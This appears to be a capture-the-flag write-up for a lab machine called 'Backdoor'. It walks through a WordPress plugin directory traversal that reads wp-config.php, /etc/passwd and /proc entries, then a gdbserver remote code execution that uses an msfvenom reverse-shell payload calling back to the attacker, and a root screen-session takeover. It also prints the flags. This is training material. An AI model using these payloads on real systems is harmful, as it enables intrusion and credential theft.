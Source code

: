 # Backdoor

1. Nmap reveals port 80 and 22

2. Gobuster reveals Wordpress, the first directory is /wp-content which contains plugins, inside plugins folder there is a ebook-download plugin, which searching reveals an exploit available.

````
# searchsploit ebook download
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                                            | php/webapps/39575.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
````

3. Try to execute the exploit
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

4. Enumerates
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````

5. Enumarates process
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$PID$/cmdline HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````
````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:43:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 232
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
````
[man gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html)

`gdbserver --once 0.0.0.0:1337 /bin/true`

* The --once option allows reusing the same port number for connecting to multiple instances of gdbserver running on the same host, since each instance closes its port after the first connection. 
* 0.0.0.0:1337 listen on any interface on port 1337
* /bin/true name of the program to be debugged

````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:32:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 234
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline/bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
````

[man screen](https://linux.die.net/man/1/screen)
`screen -dmS root`
* -dm creates a new session but does not attach to it
* session name root

6. Exploitation 
````
# searchsploit gdbserver
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)                                                   | linux/remote/50539.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
````

````
# nc -nlvp 4444
````

````
# python3 50539.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
````

````
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.221] from (UNKNOWN) [10.10.11.125] 49944
id
uid=1000(user) gid=1000(user) groups=1000(user)
python3 -c "import pty; pty.spawn('/bin/bash')"
user@Backdoor:/home/user$ cat user.txt  
cat user.txt
b43f7cb5891eae348070ac16b82a3a6a
````

7. Privilege escalation
````
user@Backdoor:/home/user$ export TERM='vt100'
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# cat root.txt
cat root.txt
c8d447a5ab07e554a8aa14e86becd194

````
screen -x 
* Attach to a not detached screen session. (Multi display mode). 

# Secrets
* FLAG_USER = b43f7cb5891eae348070ac16b82a3a6a
* FLAG_ROOT = c8d447a5ab07e554a8aa14e86becd194
